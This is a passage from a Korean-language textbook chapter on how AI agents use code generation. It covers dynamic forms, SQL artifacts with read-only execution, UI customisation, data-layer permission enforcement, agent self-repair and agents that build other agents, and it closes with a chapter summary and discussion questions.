코드 생성을 사용하면 에이전트가 구조화된 대화형 인터페이스를 만들어 텍스트 기반 질의응답을 대체할 수 있습니다. 그림 5-8은 동적 양식 생성 과정을 보여 주며, 에이전트가 명확화 질문을 한 번에 작성할 수 있는 구조화된 인터페이스로 바꾸는 방법을 설명합니다. 에이전트는 다양한 입력 컨트롤이 포함된 HTML 양식을 생성합니다. 자유 형식 정보를 위한 텍스트 상자, 미리 정한 선택지를 위한 드롭다운 메뉴, 복수 선택을 위한 체크박스, 간편한 날짜 입력을 위한 날짜 선택기입니다. 더 고급 버전은 JavaScript를 사용해 사용자 선택에 따라 후속 질문을 표시하거나 숨기고 사용 가능한 선택지를 갱신하는 연쇄 양식을 만들 수 있습니다. 사용자는 양식 전체를 한 번에 작성하여 여러 차례의 대화를 없애고, 필요한 모든 정보와 질문 사이의 논리적 관계도 명확히 볼 수 있습니다.


> **실험 5-9 ★★: 동적 양식을 활용한 의도 명확화 시스템**
>
> **실험 목표**: HTML 양식을 동적으로 생성하여 사용자 의도를 명확히 하는 에이전트의 능력을 검증합니다.
>
> **기술적 접근법**: 에이전트가 사용자 요청을 분석하고 명확히 할 항목을 식별하여 연쇄 로직이 있는 양식 코드를 생성합니다. 프런트엔드가 이를 렌더링하고 사용자가 한 번에 제출하면 에이전트가 JSON 데이터를 파싱하여 작업을 계속합니다.
>
> **인수 기준**: 사용자가 "베이징행 항공편을 예약하고 싶습니다"라고 입력합니다. 에이전트가 출발 도시(텍스트 입력), 출발 날짜(날짜 선택기), 여행 유형(편도·왕복 라디오 버튼), 귀국 날짜(왕복을 선택했을 때만 표시) 필드를 갖춘 양식을 생성합니다. 사용자는 모든 정보를 한 번에 제출합니다.
>

**SQL 쿼리 생성.**

데이터베이스 쿼리는 코드 생성으로 상호작용 경험을 크게 개선할 수 있는 시나리오입니다. 전통적인 데이터베이스 접근은 GUI 도구나 직접 작성한 SQL에 의존합니다. 전자는 조작이 번거롭고 후자는 사용자에게 전문 지식을 요구합니다. 에이전트는 자연어를 SQL로 번역할 수 있지만 중요한 설계 선택이 있습니다. 에이전트가 쿼리를 실행하고 결과를 자연어로 설명해야 할까요, 아니면 시스템이 실행하고 프런트엔드가 표시하도록 SQL을 산출물로 생성해야 할까요?

첫 번째 접근법은 더 "지능적"으로 보이지만 매우 비효율적입니다. 대형 테이블에 대한 쿼리는 수천 행을 반환할 수 있습니다. LLM이 이를 모두 읽고 문장으로 설명하게 하면 토큰과 시간을 낭비하며, 더 나쁘게는 LLM이 데이터를 "옮겨 적을" 때 오류를 잘 낸다는 문제가 있습니다. 더 나은 접근법은 **산출물(Artifact) 패턴**입니다. 그림 5-9는 SQL 쿼리 에이전트의 워크플로를 보여 줍니다. 에이전트가 데이터를 직접 읽는 대신 SQL 쿼리를 생성하여 독립적인 **실행 가능 산출물**로 시스템에 전달합니다. 시스템이 데이터베이스에서 쿼리를 실행하고 결과를 사용자에게 표로 렌더링합니다. 따라서 데이터는 LLM을 거치지 않고 데이터베이스에서 인터페이스로 직접 흐릅니다. LLM은 쿼리를 작성하지만 수천 행을 읽고 다시 서술할 필요가 없습니다. 이 방식은 더 빠르고 정확합니다.

이때 생성된 SQL과 시각화 코드를 곧바로 실행해서는 안 됩니다. 실행 계층은 읽기 전용 데이터베이스 계정을 사용하고, SQL을 파싱해 허용된 `SELECT` 문만 통과시키며 DDL·DML·다중 문장은 거부해야 합니다. 사용자 값은 서버에서 파라미터로 바인딩하고 조회 시간·행 수·접근 가능한 테이블과 기간에도 상한을 둡니다. 시각화 코드는 네트워크와 파일 시스템에서 격리한 샌드박스에서 정해진 결과 형식으로만 실행합니다. 즉 산출물 패턴은 데이터 경로를 단축할 뿐, 권한 검증과 실행 격리를 대신하지 않습니다.


한 단계 더 나아가 에이전트는 SQL 쿼리와 막대그래프 코드 같은 시각화 코드라는 두 산출물을 생성해 파이프라인을 구성할 수 있습니다. 프런트엔드는 SQL 결과를 시각화 코드에 직접 전달합니다. LLM은 코드를 생성하지만 데이터 경로에는 참여하지 않습니다. 이것이 인터페이스로서의 코드 생성이 지닌 본질입니다.

> **실험 5-10 ★★: 자연어 상호작용 ERP 에이전트**
>
> ERP(Enterprise Resource Planning, 전사적 자원 관리) 소프트웨어는 기업의 핵심 시스템으로, 일반적으로 복잡한 작업에 여러 번의 마우스 클릭이 필요한 GUI 인터페이스를 사용합니다. AI 에이전트는 사용자의 자연어 요청을 SQL 쿼리로 번역하여 데이터베이스 접근을 자동화할 수 있습니다.
>
> 요구사항: 다음 두 테이블을 포함하는 PostgreSQL 데이터베이스를 구성합니다. (1) 직원 ID, 이름, 부서, 직급, 입사일, 퇴사일(NULL이면 현재 재직 중)을 포함하는 직원 테이블, (2) 직원 ID, 급여 지급일, 급여(월별 한 레코드)를 포함하는 급여 테이블입니다. 에이전트가 다음 질문에 자동으로 답합니다.
>
> 1. 직원의 평균 근속 기간은 얼마인가?
> 2. 부서별 재직 직원 수는 몇 명인가?
> 3. 직원의 평균 직급이 가장 높은 부서는 어디인가?
> 4. 올해와 지난해에 부서별로 신입 직원이 몇 명 입사했는가?
> 5. 재작년 3월부터 지난해 5월까지 A 부서의 평균 급여는 얼마였는가?
> 6. 지난해 평균 급여가 더 높았던 부서는 A와 B 중 어디인가?
> 7. 올해 직급별 직원의 평균 급여는 얼마인가?
> 8. 근속 기간이 1년 미만, 1~2년, 2~3년인 직원들의 지난달 평균 급여는 각각 얼마인가?
> 9. 지난해에서 올해까지 급여가 가장 많이 오른 직원 10명은 누구인가?
> 10. 임금 미지급 사례(특정 월에 재직 중이었지만 해당 월의 급여 기록이 없는 직원)가 있는가?
>

**소프트웨어의 동적 생성.**

코드 생성의 궁극적인 응용은 에이전트가 소프트웨어를 처음부터 완전히 동적으로 만들게 하는 것입니다. Anthropic의 "Imagine with Claude"는 이 최전선을 보여 줍니다. 사용자가 요청하면 Claude가 실시간으로 프런트엔드 인터페이스와 상호작용 로직을 생성하고, 사용자가 생성된 소프트웨어와 상호작용하면 Claude가 코드를 수정해 결과를 보여 주는 새 인터페이스를 만듭니다. 사용자는 아무것도 없던 곳에서 애플리케이션이 탄생하여 계속 발전하는 모습을 지켜봅니다.

하지만 완전한 동적 생성은 비용이 크고 느리므로 프로덕션 사용보다는 가능성을 보여 주는 시연에 더 적합합니다. 더 실용적인 접근법은 **기존 프레임워크를 맞춤 설정하는 것**입니다. 이 "반맞춤형" 모델은 기반 소프트웨어의 안정성을 유지하면서 선택한 부분만 사용자가 제어하게 합니다. 사용자가 "버튼을 파란색으로 바꿔 주세요", "사이드바에 바로가기 메뉴를 추가해 주세요", "더 읽기 쉬운 글꼴로 바꿔 주세요"라고 말하면 에이전트가 프런트엔드 코드를 갱신하고 HMR(Hot Module Replacement, 전체 페이지를 다시 불러오지 않고 영향받은 모듈을 갱신하며 보통 애플리케이션 상태를 유지)이 변경 사항을 즉시 적용합니다. 천편일률적인 제품이 각 사용자에게 맞춘 경험으로 바뀝니다.

> **실험 5-11 ★★: 대화형 인터페이스 맞춤 설정 시스템**
>
> **실험 목표**: 사용자가 자연어 대화를 통해 소프트웨어 인터페이스를 즉시 맞춤 설정하게 하고, 핫 리로드를 활용한 코드 생성으로 개인화된 사용자 경험을 효과적으로 제공할 수 있는지 평가합니다.
>
> **기술적 접근법**: 기본 챗봇 애플리케이션(React 프런트엔드와 FastAPI 백엔드)을 구축하고, 핫 리로드(React HMR과 FastAPI reload)를 활성화한 개발 모드에서 두 컴포넌트를 모두 실행합니다. 사용자는 대화 중에 색상, 글꼴, 레이아웃, 컴포넌트 위치 같은 UI 맞춤 설정 요구사항을 제시합니다. 에이전트가 자율적으로 코드를 수정하면 핫 리로드 메커니즘이 파일 변경을 자동으로 감지하고 프런트엔드를 다시 컴파일·새로 고칩니다. 사용자는 인터페이스가 바뀌는 모습을 실시간으로 볼 수 있습니다. 시스템은 여러 차례의 반복적인 맞춤 설정을 지원합니다.

동적 소프트웨어는 유연성과 함께 전통적인 보안 전제도 바꿉니다. 과거에는 애플리케이션 비즈니스 코드를 개발·검토·테스트·배포한 뒤 비교적 안정적으로 유지했으므로 권한 부여 검사는 대개 애플리케이션 계층에 있었습니다. 에이전트가 언제든 인터페이스, 워크플로, 심지어 데이터 접근 코드까지 생성하거나 다시 작성할 수 있다면 이 계층은 더 이상 안정적이지 않습니다. 새 코드가 미묘한 권한 검사를 빠뜨리거나, 숨겨져 있던 필드를 노출하거나, 다른 호출 경로로 기존 검사를 우회할 수 있습니다. 일반적인 생성 오류든 프롬프트 인젝션으로 만들어진 위험한 코드든 결과는 같습니다. 비즈니스 코드가 지켜야 할 권한 경계가 조용히 무너질 수 있습니다.

따라서 동적 소프트웨어의 보안 목표는 “AI가 모든 권한 검사를 올바르게 작성하게 하는 것”일 수 없습니다. **AI가 잘못된 코드를 작성해도 권한 제약을 우회할 수 없게 하는 것**이 목표입니다. 권한 검사가 동적으로 생성된 비즈니스 로직 안에 있으면, 제한해야 할 코드와 같은 신뢰 도메인에 놓입니다. 프롬프트·테스트·코드 리뷰는 오류율을 낮추지만 미래 생성이 추가할 모든 실행 경로를 완전히 포괄할 수 없고 최종 보안 경계가 될 수도 없습니다.

더 견고한 아키텍처는 **신뢰 경계를 데이터 계층으로 내립니다**. 동적으로 생성된 애플리케이션 코드는 표현, 워크플로, 비즈니스 오케스트레이션을 담당하고, 사람이 검토한 안정적인 메커니즘이 어떤 사용자가 어떤 데이터에 무엇을 할 수 있는지 강제합니다. 데이터베이스 행 수준 보안으로 사용자를 자신의 테넌트 레코드로 제한하고, 제약 조건과 검증기로 잘못된 상태를 거부하며, 통제된 뷰·저장 프로시저·데이터 접근 서비스로 승인된 작업만 노출할 수 있습니다. 모든 읽기와 쓰기에는 신뢰할 수 있는 런타임이 묶은 **접근 컨텍스트**(사용자, 테넌트, 역할 또는 에이전트 ID)가 포함되어야 합니다. 생성 코드에는 이 범위가 제한된 ID만 전달하므로 ID를 위조하거나 규칙을 우회하는 특권 데이터베이스 자격 증명을 얻을 수 없습니다. 자체 검사를 빠뜨려도 데이터 계층이 승인되지 않은 작업을 거부합니다.

권한을 아래로 내린다고 해서 모든 비즈니스 로직을 데이터베이스에 넣는 것은 아닙니다. 애플리케이션 계층은 빠른 피드백을 위해 사전 검사를 수행할 수 있지만 최종 결정 권한은 데이터 계층이 가져야 합니다. 같은 규칙을 위에서는 사용자 경험 개선에, 아래에서는 보장에 사용할 수 있습니다. 이를 위해 모든 데이터 접근 경로가 신뢰할 수 있는 데이터 계층을 통과해야 하며 생성 코드가 직접 데이터베이스에 연결해 우회할 수 없어야 합니다. 그러면 상위 계층은 계속 바뀌어도 타협할 수 없는 권한 제약은 매번 재생성되지 않는 계층에 남습니다.이것이 1장 세 층 가드레일 가운데 가장 우회하기 어려운 데이터 층입니다.

> **실험 5-12 ★★★: 동적 소프트웨어를 위한 권한 내장 데이터 객체**
>
> **실험 목표**: 애플리케이션 코드가 동적으로 생성·재작성되더라도 데이터 계층에서 권한 부여와 데이터 무결성을 강제하는 객체 저장소를 구축합니다. 생성 코드가 상태 전이를 건너뛰거나 범위를 벗어난 값을 쓰거나 테넌트를 가로질러 읽어도 고정된 데이터 경계를 넘을 수 없는지 검증합니다.
>
> **기술적 접근법**: PostgreSQL 위에 Python 객체 저장소 미들웨어 계층을 제공합니다. 데이터 유형이 권한 규칙, 접근 컨텍스트, 검증기, 객체 관계, 반응을 선언하고, 객체를 읽고 쓸 때마다 권한 및 검증 파이프라인, 영속화, 참조 무결성 검사 등을 차례로 통과하게 합니다.
>
> **승인 기준**: 유효한 채용 파이프라인 업데이트가 성공해야 하며, 후보자 상태 전이 건너뛰기, 직무 범위를 벗어난 급여 쓰기, 테넌트 간 읽기는 데이터 계층에서 거부되어야 합니다.

### 코드를 만드는 코드: 에이전트 부트스트래핑

앞 절에서는 수학적 사고부터 문서 제작, 인터페이스 맞춤 설정에 이르기까지 여러 영역을 따라 코드 생성을 살펴보았습니다. 이러한 역량을 한계까지 밀어붙이면 자연스러운 질문이 생깁니다. 에이전트가 코드 생성을 사용해 다른 에이전트를 만들 수 있을까요?

먼저 이 절과 9장의 역할 분담을 명확히 해야 합니다. 이 절에서는 코딩 에이전트가 코드로 **자신과 같은 종류의 에이전트를 복구하고 만드는 방법**, 즉 자기 복구, 자기 복제, 필요할 때 새 에이전트를 생성하는 방법을 다룹니다. 코드 생성과 시스템 구축 역량에 초점을 맞추므로 이 과정을 **부트스트래핑**이라고 합니다. 9장에서는 이 코드를 작성하는 방법을 다시 설명하지 않습니다. 대신 평가를 거친 프로덕션 경험이 자기 수정을 촉발하는 방식을 다룹니다. 지식, 지침, 프로그램, 매개변수 중 갱신 대상을 선택하고, 안정 버전에서 후보 버전을 생성하며, 회귀 테스트·카나리 릴리스·롤백으로 위험을 제어합니다. 두 장은 "코드 수정"에서 만나지만 서로 다른 질문에 답합니다.


**에이전트 자기 복구: OpenClaw Doctor.**

에이전트 부트스트래핑의 중요한 전제 조건은 자기 복구 능력입니다. OpenClaw의 `doctor` 명령은 이 역량을 구현하며 다음 세 가지 유형의 문제를 자동으로 감지할 수 있습니다.

- **설정 이상**: 만료된 OAuth 토큰, 레거시 설정 형식, 포트 충돌
- **상태 문제**: 오래된 세션 잠금 파일, 누락된 플러그인 의존성
- **서비스 상태 문제**: 실행되지 않는 게이트웨이, 누락된 샌드박스 이미지

그런 다음 계층화된 복구 전략으로 이를 자동 해결합니다. 설정 정규화, 잠금 파일 정리 같은 안전한 수정은 자동으로 실행하고, 서비스 재시작이나 강제 설정 덮어쓰기 같은 위험한 작업에는 사용자 확인을 요구합니다.

이를 과장해서는 안 됩니다. 만료된 토큰, 오래된 잠금 파일, 포트 충돌처럼 자주 발생하는 문제에는 명확한 감지 규칙과 정해진 복구 작업이 있으며, `doctor`는 전통적인 운영 스크립트처럼 **결정론적 검사로 먼저 처리합니다**. 에이전트 역량은 두 번째 계층에서 의미가 생깁니다. 규칙으로 다루기 어려운 문제에는 `doctor`가 LLM을 사용해 오류 로그를 분석하고 설정 파일을 해석하며 근본 원인을 추론해 표적 복구 계획을 만듭니다. 결정론적 검사는 흔한 문제를 신뢰성 있게 해결하고 LLM은 롱테일을 다룹니다. 이 두 계층을 함께 사용하면 `doctor --fix`가 흔한 게이트웨이 문제의 상당 부분을 자동으로 해결할 수 있습니다. 이를 "에이전트가 에이전트를 복구하는" 패턴으로 만드는 것은 작업 대상이 외부 시스템이 아니라 자신의 런타임 환경이라는 점입니다. 자기 복구를 시스템 어댑터 기능에서 핵심 부트스트래핑 인프라로 끌어올립니다.

**에이전트가 에이전트를 작성하게 하는 핵심 기법.**

고품질 에이전트를 만드는 일은 일반 애플리케이션 코드를 생성하는 것보다 훨씬 어렵습니다. 에이전트 아키텍처 패턴, 모범 사례, 흔한 함정을 깊이 이해해야 하기 때문입니다. 이러한 도메인 전문성이 없으면 가장 강력한 코드 생성 모델도 심각한 아키텍처 결함이 있는 에이전트를 만듭니다. 흔한 결함은 다음과 같습니다.

1. **임시방편식 컨텍스트 관리**: 2장에서 다룬 표준 컨텍스트 형식을 사용하지 않고, 궤적을 일반 텍스트로 컨텍스트에 욱여넣으며, 구조화된 메시지의 KV 캐시 최적화를 무시하고, 도구 호출 루프에 경계 조건 버그를 만듭니다.
2. **비표준 도구 설계**: 설명이 모호하고, 사용 경계 지침과 금지 목록이 없으며, 매개변수에 구체적인 예가 없습니다.
3. **오래된 기술 선택**: 학습 데이터에서 가장 흔하지만 오래된 모델과 API를 사용하는 경향이 있습니다. 해결책은 SOTA 지식 베이스를 유지하거나 에이전트에 검색 기능을 제공하는 것입니다.
4. **외부 생태계와의 단절**: 지원 중단된 API, 유지보수되지 않는 라이브러리, 결함 있는 패턴을 사용합니다.

이 문제를 해결하는 가장 효과적인 방법은 모든 규칙을 프롬프트에 빠짐없이 나열하는 것이 아니라 **고품질 에이전트 구현을 참조 예제로 제공**하고, 코드 생성 에이전트가 처음부터 만드는 대신 이를 수정하도록 이끄는 것입니다.

예제 기반 생성의 장점은 분명합니다. 예제 코드 자체에 모범 사례가 담겨 있습니다. 검증된 구현을 수정하는 에이전트는 처음부터 시작하는 에이전트보다 올바른 결과를 더 자주 만듭니다. 프롬프트에 모든 규칙을 일일이 적지 않아도 구현이 건전한 아키텍처 선택을 보존하기 때문입니다.

에이전트가 새 에이전트를 개발하는 작업을 받으면 먼저 자신의 코드(또는 검증된 다른 고품질 구현)를 복사한 다음 표적 수정을 해야 합니다. 새로운 역할에 맞게 시스템 프롬프트를 조정하고, 새 기능에 맞는 도구를 교체하거나 추가하며, 아키텍처 틀은 유지하면서 비즈니스 로직을 수정합니다. 이 "적응형 수정을 동반한 자기 복제" 패턴은 새 에이전트가 핵심 기술적 이점을 물려받는 동시에 특정 차원에서는 차별화할 수 있게 합니다. 생물학에서 돌연변이를 동반한 유전자 복제와 비슷합니다.

> **실험 5-13 ★★★: 에이전트를 만들 수 있는 에이전트 개발하기**
>
> **실험 목표**: 다른 프로그램을 생성하거나 수정하는 프로그램을 작성하는 능력인 메타프로그래밍 역량을 갖춘 코딩 에이전트를 구축합니다. 이 에이전트는 모범 사례를 준수하면서 사용자 요구사항으로부터 새 에이전트 시스템을 자동으로 만들 수 있어야 합니다.
>
> **기술적 접근법**: 코딩 에이전트에 고품질 에이전트 구현을 참조 예제로 제공합니다(ch5/coding-agent 프로젝트 자체를 사용할 수 있습니다). 새 에이전트를 만드는 작업을 받으면 에이전트가 먼저 이 예제 코드를 복사한 다음 사용자의 구체적인 요구에 따라 표적 수정을 합니다.
>
> **인수 기준**: 생성된 에이전트가 성공적으로 실행되고 기본 작업을 완료해야 합니다. 표준 메시지 형식과 도구 호출 프로토콜, 현재 권장되는 모델과 API를 사용하고, 여러 대화 턴에 걸쳐 컨텍스트와 상태를 올바르게 관리하는지 검증합니다. 처음부터 생성하는 방식과 예제 기반 수정 방식을 비교하여 후자가 품질과 효율을 높이는지 확인합니다.
>
>
> 
>
>

에이전트 부트스트래핑은 코드 생성의 궁극적인 응용입니다. 에이전트를 만들 수 있는 에이전트는 지능의 자기 복제를 달성합니다. 이로써 코딩 에이전트의 토대에서 시작해 코드 생성의 다양한 활용을 거쳐 부트스트래핑에 이르는 이 장의 전체 흐름을 살펴보았습니다.

## 장 요약

이 장에서는 한 가지를 일관되게 주장했습니다. 코드는 프로그램을 작성하는 도구에 불과한 것이 아니라 에이전트의 형식화된 사고와 정확한 표현을 위한 언어입니다.

하네스 엔지니어링 절에서는 한 가지 핵심 결론에 도달했습니다. 코딩 에이전트가 성숙한 이유는 코드 생성 모델이 유난히 강력해서가 아니라, 테스트 스위트·타입 시스템·버전 관리 등 수십 년간 축적된 소프트웨어 엔지니어링 인프라가 자연스럽게 강력한 하네스를 구성하기 때문입니다. 이 결론은 다른 에이전트 시나리오에도 적용할 가치가 있습니다. 실패와 오류 복구 절은 같은 주제의 이면을 보여 줍니다. 에이전트의 신뢰성은 모델이 실수하는지 여부가 아니라 모든 실패 유형에 대응하는 감지·복구·종료 경로가 있는지에 따라 결정됩니다.

두 번째 부분에서는 본문의 여섯 차원에 맞추어 프로그래밍을 넘어서는 코드 생성의 폭넓은 가치를 보여 주었습니다.

- **사고 도구**: 기호 계산과 제약 풀이를 활용하여 확률적 사고의 단점을 보완합니다.
- **비즈니스 규칙 제약**: 비즈니스 규칙을 모호하지 않게 표현하고, 되돌릴 수 없는 작업에 결정론적 안전망을 제공합니다. 이 보장의 가치는 구현 비용을 훨씬 뛰어넘습니다.
- **멀티미디어 생성**: 제안자-검토자 메커니즘으로 PPT와 동영상 같은 멀티모달 콘텐츠를 만듭니다.
- **시스템 어댑터**: 형식의 발전을 자동으로 따라가 로그 파싱과 문제 진단을 완전히 자동화합니다.
- **생성형 UI**: 양식, 시각화, 나아가 완전한 맞춤형 애플리케이션을 동적으로 만들어 일반 텍스트의 한계를 벗어납니다.
- **에이전트 부트스트래핑**: 코드로 기존 에이전트를 복구하고 새 에이전트를 만들어, 궁극적으로 에이전트가 다른 에이전트를 만들게 합니다.

에이전트에 코드가 갖는 가치는 다음과 같이 요약할 수 있습니다. 코드는 작업을 완수하는 수단이면서 지식을 축적하고 도구를 만들며 자신을 개선하는 메커니즘, 즉 진정한 "메타 역량"입니다.

여기까지 컨텍스트, 지식, 도구, 코딩 역량을 범용 에이전트의 기본 아키텍처로 결합했으며, 코드 생성은 그중 가장 범용적인 메타 역량입니다. 그러나 앞의 다섯 장은 여전히 에이전트와 세계가 번갈아 행동한다고 가정합니다. 6장은 관찰 공간과 행동 공간을 비동기 이벤트, 음성, 화면, 물리 세계로 확장하여 “에이전트 구축”의 마지막 조각을 채웁니다. 이 단계가 끝나면 7장은 평가와 지속적 개선으로 전환합니다.

## 생각해 볼 문제

1. ★★ 코드 생성은 에이전트의 "메타 역량"이라고 불립니다. 하지만 코드를 실행하면 보안 위험이 생깁니다. 에이전트가 생성한 코드에 취약점이 있거나 무한 루프에 빠지거나 리소스를 고갈시킬 수 있습니다. 샌드박스는 일부 위험을 완화하지만 네트워크나 파일 시스템 접근을 차단하는 등 코드가 할 수 있는 일도 제한합니다. 보안과 역량 사이에서 최적의 균형을 어떻게 찾을 수 있을까요?
2. ★★★ 에이전트가 에이전트를 만들 수 있는 에이전트 부트스트래핑은 "지능의 자기 복제"를 가능하게 합니다. 하지만 부트스트래핑을 반복할 때마다 새로운 편향이나 오류가 생길 수 있습니다. 이러한 오류가 세대에 걸쳐 누적될까요? 에이전트 부트스트래핑의 성능 저하를 어떻게 막을 수 있을까요?
3. ★★ 코드 생성 에이전트가 로그 파싱을 처리하면 형식의 발전을 자동으로 따라갈 수 있습니다. 하지만 형식 변경이 의도된 수정이 아니라 버그라면 에이전트의 적응성이 오히려 문제를 감출 수 있습니다. 에이전트는 "적응해야 할 변경"과 "보고해야 할 이상"을 어떻게 구분해야 할까요?
4. ★★ 이 장에서는 PPT 생성, 동영상 편집, 로그 시각화에 제안자-검토자 메커니즘을 반복해서 사용했습니다. 검토자의 미적 선호가 대상 사용자의 선호와 다르다면, 예를 들어 검토자는 정보 밀도가 적절하다고 보지만 사용자는 너무 빽빽하다고 느낀다면 피드백 루프가 잘못된 국소 최적점에 수렴할 수 있습니다. 검토자 루프에 사용자 선호 피드백을 어떻게 반영할 수 있을까요?
5. ★★ 이 장에서는 코딩 에이전트가 실행과 디버깅에서 얻은 경험을 코드베이스에 다시 정착시키는 여러 방법을 보여 주었습니다. 지식 베이스 파일 작성, 아키텍처 문서 갱신, 프로젝트 지침 파일 유지보수, 작업 순서를 코드로 인코딩하는 방법입니다. 이러한 경험을 시스템 프롬프트의 규칙으로 더 정제하면 규칙 집합은 시간이 지날수록 계속 커질 것입니다. 누적된 규칙에서 중복되거나 오래된 항목을 찾아 제거하는 "가비지 컬렉션"을 어떻게 수행할 수 있을까요? 한 번의 성공적인 코드 수정이 아직 9장에서 말하는 지속적 진화가 아닌 이유는 무엇일까요?
6. ★ "원격 근무에 친화적인 팀은 대개 AI 에이전트에도 친화적입니다." 지식 문서화 측면에서 여러분의 팀이나 조직은 "AI 준비"에 얼마나 가까워져 있나요? 가장 큰 장애물은 무엇인가요?
7. ★★★ Simon Willison은 개인 데이터 접근, 신뢰할 수 없는 콘텐츠에 대한 노출, 외부 통신 능력이라는 에이전트의 "치명적 삼각형"을 제안했습니다. 이 장에서는 네 번째 요소인 영구 메모리를 추가했습니다. 네 요소를 동시에 처리해야 하는 프로덕션 환경이라면 어떤 보안 전략을 설계하시겠습니까?
8. ★★ 산출물 패턴을 사용하면 에이전트가 SQL이나 시각화 코드를 생성해 프런트엔드에서 직접 실행할 수 있으므로 LLM이 대량의 데이터를 처리할 필요가 없습니다. "에이전트가 코드를 생성하고 시스템이 코드를 실행하는" 이 역할 분담은 에이전트가 직접 답을 제공하는 전통적인 패턴과 비교해 어떤 장단점이 있을까요? 또한 생성된 SQL이 파괴적인 작업을 수행하거나 생성된 HTML에 취약점이 있을 수 있습니다. 시스템의 보안을 어떻게 보장할 수 있을까요?
9. ★★ 비즈니스 규칙을 데이터베이스 정답에 대한 검증으로 인코딩하고, 매개변수 설계로 모델이 호출 전에 정책 조건을 확인하도록 유도하는 방식은 본질적으로 코드 구조를 사용해 에이전트 행동을 제약합니다. 이 "규칙으로서의 코드" 패턴은 자연어로 표현한 규칙과 비교해 어떤 장점과 한계가 있을까요?
